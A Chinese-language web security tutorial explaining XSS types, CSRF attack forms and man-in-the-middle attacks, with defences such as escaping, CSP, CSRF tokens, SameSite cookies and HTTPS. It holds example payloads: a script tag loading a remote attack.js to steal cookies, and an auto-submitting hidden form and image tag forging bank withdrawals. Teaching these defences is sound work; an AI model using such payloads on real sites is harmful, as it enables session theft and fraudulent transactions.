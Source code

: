 # 概览

- **XSS**：XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。
- **CSRF**: CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事
- **中间人攻击**：是指攻击者与通讯的两端分别创建独立的联系，在通讯中充当一个中间人角色对数据进行监听、拦截甚至篡改。

# XSS
>  Cross Site Scripting（跨站脚本攻击） 是指攻击者利用网站漏洞将代码注入到其他用户浏览器的攻击方式。常见类型有：反射型（非持久性）存储型（持久性）DOM 型

### 类型
#### 反射型（非持久性）  
原理：攻击者通过在 URL 插入恶意代码，其他用户访问该恶意链接时，服务端在URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

要点：  
**通过 URL 插入恶意代码。**  
**有服务端参与。**   
**需要用户访问特定链接。**  

例子：  
攻击者诱导被害者打开链接hzfe.org?name=<script src="http://a.com/attack.js"/>。被攻击网站服务器收到请求后，未经处理直接将 URL 的 name 字段直接拼接至前端模板中，并返回数据。被害者在不知情的情况下，执行了攻击者注入的脚本（可以通过这个获取对方的Cookie 等）。

#### 存储型（持久性）  
原理：攻击者将注入型脚本提交至被攻击网站数据库中，当其他用户浏览器请求数据时，注入脚本从服务器返回并执行。

要点：  
**恶意代码存储在目标网站服务器上。**  
**有服务端参与。**   
**只要用户访问被注入恶意脚本的页面时，就会被攻击。** 

例子：  
攻击者在目标网站留言板中提交了<script src="http://a.com/attack.js"/>。目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过innerHTML 渲染到页面中。其他用户在访问该留言板时，会自动执行攻击者注入脚本。

#### DOM 型  
原理：  
攻击者通过在 URL 插入恶意代码，客户端脚本取出 URL 中的恶意代码并执行。  

要点：  
在客户端发生。

例子：  
攻击者诱导被害者打开链接hzfe.org?name=<script src="http://a.com/attack.js"/>。被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。被害者在不知情的情况下，执行了攻击者注入的脚本。

### 防范 XSS  
- 对于外部传入的内容进行充分转义。
- 开启 CSP（Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，降低 XSS 风险。
- 设置 Cookie httpOnly 属性，禁止 JavaScript 读取 Cookie 防止被窃取。

# Cross-site request forgery(CSRF)

### 案例
一个真实的案例：用户 David 在自己邮箱内点击了黑客恶意伪装的链接。黑客在点击的链接里冒充用户(cookie)向 Gmail 服务器发送邮件自动转发请求，导致 David 的邮件都被自动转发到了黑客的邮箱，从而被黑客利用盗取了用户数据。

### 原理
原理：攻击者诱导受害者进入第三方网站，在第三方网站中向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的身份凭证，达到冒充用户对被攻击的网站执行某项操作的目的。

### 要点：
- 利用浏览器在发送 HTTP 请求时会自动带上 Cookie 的原理，冒用受害者身份请求。
- 攻击一般发生在第三方网站上。
- 攻击者只能“冒用”受害者的身份凭证，并不能获取。
- 跨站请求有多种方式，常见的有图片 URL、超链接、Form 提交等。

### CSRF 常见的攻击方式与防护策略
常见的攻击方式：  
* 自动发起 GET 请求的 CSRF
* 自动发起 POST 请求的 CSRF
* 引诱用户点击链接的 CSRF

1. 自动发起 Get 请求  
GET类型的CSRF利用非常简单，只需要一个HTTP请求，一般会这样利用：
```
 ![](https://awps-assets.meituan.net/mit-x/blog-images-bundle-2018b/ff0cdbee.example/withdraw?amount=10000&for=hacker)
```
在受害者访问含有这个img的页面后，浏览器会自动向`http://bank.example/withdraw?account=xiaoming&amount=10000&for=hacker`发出一次HTTP请求。bank.example就会收到包含受害者登录信息的一次跨域请求。

2. 自动发起 POST 请求  
这种类型的CSRF利用起来通常使用的是一个自动提交的表单，如：
```html
 <form action="http://bank.example/withdraw" method=POST>
    <input type="hidden" name="account" value="xiaoming" />
    <input type="hidden" name="amount" value="10000" />
    <input type="hidden" name="for" value="hacker" />
</form>
<script> document.forms[0].submit(); </script>
```
访问该页面后，表单会自动提交，相当于模拟用户完成了一次POST操作。  
POST类型的攻击通常比GET要求更加严格一点，但仍并不复杂。任何个人网站、博客，被黑客上传页面的网站都有可能是发起攻击的来源，后端接口不能将安全寄托在仅允许POST上面。

3. 引诱用户点击链接  
链接类型的CSRF并不常见，比起其他两种用户打开页面就中招的情况，这种需要用户点击链接才会触发。这种类型通常是在论坛中发布的图片中嵌入恶意链接，或者以广告的形式诱导用户中招，攻击者通常会以比较夸张的词语诱骗用户点击，例如：
```html
  <a href="http://test.com/csrf/withdraw.php?amount=1000&for=hacker" taget="_blank">
  重磅消息！！
  <a/>
```
由于之前用户登录了信任的网站A，并且保存登录状态，只要用户主动访问上面的这个PHP页面，则表示攻击成功。


CSRF 攻击的两个必要条件：  

**1. 目标站点一定要有 CSRF 漏洞；**  
**2. 诱导用户从目标网站，打开一个第三方站点。**

CSRF通常从第三方网站发起，被攻击的网站无法防止攻击发生，只能通过增强自己网站针对CSRF的防护能力来提升安全性。

上文中讲了CSRF的两个特点：

CSRF（通常）发生在第三方域名。
CSRF攻击者不能获取到Cookie等信息，只是使用。
针对这两点，我们可以专门制定防护策略，如下：

* 阻止不明外域的访问
  * 同源检测
  * Samesite Cookie
* 提交时要求附加本域才能获取的信息
  * CSRF Token
  * 双重Cookie验证
### 防范：

1. 使用 **CSRF Token** 验证用户身份
原理：服务端生成 CSRF Token （通常存储在 Session 中），用户提交请求时携带上 Token，服务端验证 Token 是否有效。
优点：能比较有效的防御 CSRF （前提是没有 XSS 漏洞泄露 Token）。
缺点：大型网站中 Session 存储会增加服务器压力，且若使用分布式集群还需要一个公共存储空间存储 Token，否则可能用户请求到不同服务器上导致用户凭证失效；有一定的工作量。
2. **双重 Cookie 验证**
原理：利用攻击者不能获取到 Cookie 的特点，在 URL 参数或者自定义请求头上带上 Cookie 数据，服务器再验证该数据是否与 Cookie 一致。
优点：无需使用 Session，不会给服务器压力。
3. 设置 Cookie 的 SameSite 属性可以用来限制第三方 Cookie 的使用，可选值有 Strict、Lax、None。(**SameSite Cookie**)
Strict：完全禁止第三方 Cookie。
Lax：只允许链接、预加载请求和 GET 表单的场景下发送第三方 Cookie。
None：关闭 SameSite 属性。
**设置为 Lax 或者 Strict，禁止发送第三方 Cookie。**
5. 设置白名单，仅允许安全域名请求
6. 增加验证码验证

# 中间人攻击（MITM）
> 中间人攻击是一种通过各种技术手段入侵两台设备通信的网络攻击方法

成功的中间人攻击主要有两个不同的阶段：拦截和解密。

### 中间人攻击防范  
* 对于开发者来说：
  * 支持 HTTPS。
  * 开启 HSTS 策略。
* 对于用户来说：
  * 尽可能使用 HTTPS 链接。
  * 避免连接不知名的 WiFi 热点。
  * 不忽略不安全的浏览器通知。
  * 公共网络不进行涉及敏感信息的交互。
  * 用可信的第三方 CA 厂商，不下载来源不明的证书。
